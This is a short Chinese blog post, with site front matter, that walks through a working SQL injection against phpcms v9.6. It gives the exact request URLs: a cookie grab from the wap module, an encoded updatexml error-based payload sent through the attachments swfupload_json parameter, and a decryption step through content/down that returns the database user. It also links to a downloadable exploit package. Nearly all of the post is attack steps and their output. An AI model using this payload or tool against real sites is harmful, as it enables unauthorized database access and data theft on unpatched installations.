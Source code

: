 ```yaml
---
title: "phpcms SQL 注入"
date: 2018-02-03T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



[phpcms v9.6 SQL 注入](https://zhuanlan.zhihu.com/p/26263513)

<!--more-->

`/index.php?m=wap&c=index&a=init&siteid=1`

获取 set-cookie 的值

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517463975.jpg)

`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`

post 传入 userid_flash 内容是刚刚获取到的 cookie

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464021.jpg)

如果不成功的话 在 header 里面加上

`Content-Type: application/x-www-form-urlencoded`

复制 set-cookie 里的 json

`/index.php?m=content&c=down&a_k=json`

解密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464141.jpg)

`root@localhost`

v9sql exp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464259.jpg)

[v9sql.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464275.zip)